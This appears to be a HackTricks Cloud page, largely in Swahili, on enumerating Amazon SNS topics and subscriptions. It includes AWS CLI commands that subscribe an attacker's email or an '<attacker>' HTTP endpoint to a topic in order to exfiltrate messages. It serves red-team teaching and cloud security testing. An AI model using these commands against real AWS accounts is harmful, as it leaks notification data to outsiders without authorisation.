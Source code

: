 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) inafafanuliwa kama **huduma ya ujumbe inayosimamiwa kikamilifu**. Inasaidia aina za mawasiliano **kutoka programu hadi programu** (A2A) na **kutoka programu hadi mtu** (A2P).

Vipengele muhimu kwa mawasiliano ya A2A ni pamoja na **mekanismu za kuchapisha/kujiunga (pub/sub)**. Mekanismu hizi zinaanzisha **mada**, muhimu kwa kuwezesha ujumbe wa **kuwasilisha, wa juu, wa wengi kwa wengi**. Kipengele hiki ni cha faida sana katika hali zinazohusisha mifumo iliyosambazwa, huduma ndogo, na usanifu wa seva zisizo na tukio. Kwa kutumia mada hizi, mifumo ya wachapishaji inaweza kusambaza ujumbe kwa ufanisi kwa **mifumo mbalimbali ya wapokeaji**, ikiruhusu muundo wa ujumbe wa fanout.

### **Difference with SQS**

**SQS** ni huduma ya **mifumo ya foleni** inayoruhusu mawasiliano ya pointi hadi pointi, kuhakikisha kwamba ujumbe unachakatwa na **mpokeaji mmoja**. Inatoa **usambazaji angalau mara moja**, inasaidia foleni za kawaida na FIFO, na inaruhusu uhifadhi wa ujumbe kwa ajili ya kurudi na usindikaji wa kucheleweshwa.\
Kwa upande mwingine, **SNS** ni huduma ya **kuchapisha/kujiunga**, inayowezesha mawasiliano ya **moja kwa wengi** kwa kutangaza ujumbe kwa **wapokeaji wengi** kwa wakati mmoja. Inasaidia **nukta mbalimbali za kujiunga kama barua pepe, SMS, kazi za Lambda, na HTTP/HTTPS**, na inatoa mekanismu za kuchuja kwa usambazaji wa ujumbe wa lengo.\
Ingawa huduma zote mbili zinawezesha kutenganisha kati ya vipengele katika mifumo iliyosambazwa, SQS inazingatia mawasiliano ya foleni, na SNS inasisitiza muundo wa mawasiliano ya tukio, fan-out.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Kumbuka kwamba ikiwa **mada ni ya aina ya FIFO**, ni wanachama pekee wanaotumia itifaki **SQS** wanaweza kutumika (HTTP au HTTPS haiwezi kutumika).

Pia, hata kama `--topic-arn` ina eneo hakikisha unataja eneo sahihi katika **`--region`** au utapata kosa linaloonekana kama linaonyesha kwamba huna ufaccess lakini tatizo ni eneo.
{% endhint %}

#### Upatikanaji Usioidhinishwa

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Kuinua Haki

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Baada ya Kutekeleza

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Kudumu

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Marejeleo

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
